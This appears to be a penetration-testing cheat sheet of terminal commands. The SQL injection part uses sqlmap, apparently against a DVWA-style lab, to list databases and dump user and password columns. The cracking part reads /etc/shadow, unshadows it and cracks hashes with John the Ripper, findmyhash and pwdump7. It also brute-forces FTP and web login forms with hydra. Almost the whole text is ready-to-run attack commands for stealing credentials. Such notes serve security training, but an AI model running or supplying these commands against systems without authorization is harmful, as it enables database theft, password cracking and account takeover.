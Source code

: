 ---------------------------------------------------------------------

## SQL INJECTION ##
	Tools:	burpsuite	
			sqlmap
			
	0) Start MySQL
	Linux:
		~service mysql start
	OSX:
		~sudo mysql.server start
		
	0) Start Apache
	Linux:
		~sudo apache2 start
	OSX:
		~sudo apachectl start
			
	1) Use Burpsuite to get the url of the server

	2) Check the mysql database schemas using SqlMap
		~sqlmap -u <"url"> --cookie="security=low; PHPSESSID=17dh092730d12h73907h0" --dbs

	3) Retrieve the tables from the DB using SqlMap
		~sqlmap -u <"url"> --cookie="security=low; PHPSESSID=17dh092730d12h73907h0" 
		-D mysql --tables
		-T users --column
		-C user,password --dump

---------------------------------------------------------------------	

## CRACKING HASHES ##
	Tools:	findmyhash
			john
			hydra	

	* Using FindMyHash
		~findmyhash MD5 -h <HASH>

	* Using JohnTheRipper
		0) Look for the passwords file	
			~cat /etc/shadow
		1) Unshadow them into another file
			~unshadow /etc/passwd /etc/shadow > passwords.txt
		2) Crack the hash(es)
			~john passwords.txt
			~john --show passwords.txt
		+ PwDump7 (on Windows!)
			~pwdump7.exe > passwords.txt
			~john.exe --show passwords.txt

	* Using Hydra
		Example:
			~hydra -l <user> -p <pass> <server>
			~hydra -l admin -p password ftp://192.168.0.1
		Example2:
			~hydra -l <user> -P <passFile> <server> http-post-form <"urlField1:urlField2:urlField3"> -V
			~hydra -l admin -P passlist.txt 192.168.0.102 http-post-form "/rest_of_the_url/login.php:username=^USER^&password=^PASS^&Login=Login: Login failed" -V 
